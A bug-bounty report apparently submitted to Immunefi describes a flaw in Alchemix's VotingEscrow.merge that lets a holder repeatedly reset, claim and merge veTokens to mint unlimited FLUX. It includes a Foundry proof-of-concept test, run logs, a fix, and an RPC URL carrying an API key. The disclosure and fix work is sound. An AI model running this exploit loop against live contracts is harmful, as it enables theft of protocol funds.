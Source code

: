 
# `VotingEscrow.merge` does not check whether the `_from` $veToken has voted causing it can be exploited to receive $FLUX unlimitedly

Submitted on Tue May 14 2024 14:31:50 GMT-0400 (Atlantic Standard Time) by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31198

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro

The `VotingEscrow.merge` interface can merge two $veToken. It checks `voted[_from]` to ensure that `_from` $veToken has not voted in the current epoch. However, this check is not comprehensive enough because the user can call `Voter.reset` to claim $FLUX without setting `voted[_from]` to `true`.

## Vulnerability Details

Please see the following code. Users can call `Voter.reset` to receive $FLUX. This interface will call `VotingEscrow.abstain` to set `voted[_tokenId]` to `false`. Moreover, the `onlyNewEpoch` modifier limits each `_tokenId` to only call the interface once per epoch. Next we use `VotingEscrow.merge` to bypass this limit.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L183-L192
    function reset(uint256 _tokenId) public onlyNewEpoch(_tokenId) {
        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        lastVoted[_tokenId] = block.timestamp;
        _reset(_tokenId);
        IVotingEscrow(veALCX).abstain(_tokenId);
        IFluxToken(FLUX).accrueFlux(_tokenId);
    }
```

Please look at the following code. The `VotingEscrow.merge` interface can merge two $veToken into one. It only checks `voted[_from]` but not `voter.lastVoted(_from)`. In other words, we first call `Voter.reset(_from)` and then merge `_from` $veToken into another $veToken to continue receiving $FLUX.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L618-L622
    function merge(uint256 _from, uint256 _to) external {
        require(!voted[_from], "voting in progress for token");
        require(_from != _to, "must be different tokens");
        require(_isApprovedOrOwner(msg.sender, _from), "not approved or owner");
        require(_isApprovedOrOwner(msg.sender, _to), "not approved or owner");
```

This is a brief description of the attack. Please see the PoC code for details.

1. The attacker owns $veTokenA and calls `Voter.reset` on $veTokenA. The attacker will receive $FLUX once
2. The attacker creates a new $veTokenTemp worth `1` wei of $BPT. `1` wei $BPT cost is `~0`
3. The attacker merges $veTokenA into $veTokenTemp
4. Now treat $veTokenTemp as $veTokenA and go back to the step1

Repeat the above steps to receive unlimited $FLUX

**Suggested fix**

Check whether the `_from` $veToken has voted

```diff
    function merge(uint256 _from, uint256 _to) external {
+       require((block.timestamp / DURATION) * DURATION > IVoter(voter).lastVoted(_from));
        require(!voted[_from], "voting in progress for token");
        require(_from != _to, "must be different tokens");
        require(_isApprovedOrOwner(msg.sender, _from), "not approved or owner");
        require(_isApprovedOrOwner(msg.sender, _to), "not approved or owner");
```

## Impact Details

Attackers can receive unlimited $FLUX unlimitedly

## References

None
        
## Proof of concept
## Proof of Concept

The PoC patch

```diff
diff --git a/src/test/VotingEscrow.t.sol b/src/test/VotingEscrow.t.sol
index 6e828a3..cfb35e6 100644
--- a/src/test/VotingEscrow.t.sol
+++ b/src/test/VotingEscrow.t.sol
@@ -1015,4 +1015,43 @@ contract VotingEscrowTest is BaseTest {
 
         hevm.stopPrank();
     }
+
+    function testYttriumzzPocTemp() public {
+        hevm.startPrank(admin);
+
+        uint256 tokenId = veALCX.createLock(1e18, 0, true);
+
+        console.log(">>>>> before steal");
+        console.log(">> IERC20(bpt).balanceOf(admin): %s", IERC20(bpt).balanceOf(admin));
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        for (uint256 i = 0; i < 50; i++) {
+            voter.reset(tokenId);
+            flux.claimFlux(tokenId, flux.getUnclaimedFlux(tokenId));
+            uint256 tokenIdTemp = veALCX.createLock(1, 0, true);
+            veALCX.merge(tokenId, tokenIdTemp);
+            tokenId = tokenIdTemp;
+        }
+        
+        console.log(">>>>> after steal 50 times");
+        console.log(">> IERC20(bpt).balanceOf(admin): %s", IERC20(bpt).balanceOf(admin));
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        for (uint256 i = 0; i < 100; i++) {
+            voter.reset(tokenId);
+            flux.claimFlux(tokenId, flux.getUnclaimedFlux(tokenId));
+            uint256 tokenIdTemp = veALCX.createLock(1, 0, true);
+            veALCX.merge(tokenId, tokenIdTemp);
+            tokenId = tokenIdTemp;
+        }
+        
+        console.log(">>>>> after steal 150 times");
+        console.log(">> IERC20(bpt).balanceOf(admin): %s", IERC20(bpt).balanceOf(admin));
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        hevm.stopPrank();
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testYttriumzzPocTemp() (gas: 114711590)
Logs:
  >>>>> before steal
  >> IERC20(bpt).balanceOf(admin): 99999999000000000000000000
  >> flux.balanceOf(admin): 0
  
  >>>>> after steal 50 times
  >> IERC20(bpt).balanceOf(admin): 99999998999999999999999950
  >> flux.balanceOf(admin): 49862958206078108850
  
  >>>>> after steal 150 times
  >> IERC20(bpt).balanceOf(admin): 99999998999999999999999850
  >> flux.balanceOf(admin): 149588874618234326550
  

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 417.75ms (402.92ms CPU time)

Ran 1 test suite in 1.73s (417.75ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

